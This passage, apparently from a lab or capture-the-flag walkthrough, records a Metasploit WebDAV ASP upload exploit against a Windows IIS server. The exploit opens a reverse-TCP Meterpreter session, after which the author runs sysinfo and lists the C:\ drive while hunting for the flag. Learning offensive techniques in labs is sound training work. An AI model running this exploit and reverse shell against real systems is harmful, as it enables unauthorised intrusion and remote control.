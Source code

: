 ```bash
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS 10.10.43.2
RHOSTS => 10.10.43.2
# PATH = the last part should be file name I'll upload (just like the meterpreter.asp)
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set PATH /webdav/metasploit.asp
PATH => /webdav/metasploit.asp

# Run the module
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.43.2:4444 
[*] Checking /webdav/metasploit.asp
[*] Uploading 613817 bytes to /webdav/metasploit.txt...
[*] Moving /webdav/metasploit.txt to /webdav/metasploit.asp...
[*] Executing /webdav/metasploit.asp...
[*] Deleting /webdav/metasploit.asp (this doesn't always work)...
[*] Sending stage (176198 bytes) to 10.0.23.31
[*] Meterpreter session 2 opened (10.10.43.2:4444 -> 10.0.23.31:49834) at 2025-07-15 19:20:12 +0530
meterpreter >

# Try sysinfo command
meterpreter > sysinfo
Computer        : AD-IIS
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

# Successfully exploited!
```

4. Find the flag
```bash
# cd .. tp C:\
meterpreter > cd ..
meterpreter > ls
Listing: c:\
============

Mode          Size    Type  Last modified          Name
----          ----    ----  -------------          ----
040777/rwxrw  0       dir   2020-10-27 10:40:39 +  $Recycle.Bin
xrwx                        0530
100666/rw-rw  1       fil   2018-09-15 12:42:30 +  BOOTNXT
-rw-                        0530
040777/rwxrw  8192    dir   2020-09-09 10:08:52 +  Boot
xrwx                        0530
040777/rwxrw  0       dir   2020-12-05 12:58:57 +  Config.Msi
xrwx                        0530
040777/rwxrw  0       dir   2018-11-14 21:40:15 +  Documents and Setting
xrwx                        0530                   s
040777/rwxrw  0       dir   2018-11-14 12:26:18 +  EFI
xrwx                        0530
040777/rwxrw  0       dir   2020-05-13 23:28:09 +  PerfLogs
xrwx                        0530
040555/r-xr-  8192    dir   2020-10-27 19:48:59 +  Program Files
xr-x                        0530
040777/rwxrw  8192    dir   2021-01-04 12:57:40 +  Program Files (x86)
xrwx                        0530
040777/rwxrw  4096    dir   2020-10-27 13:17:34 +  ProgramData
xrwx                        0530
040777/rwxrw  0       dir   2020-10-27 02:32:48 +  Recovery
xrwx                        0530
```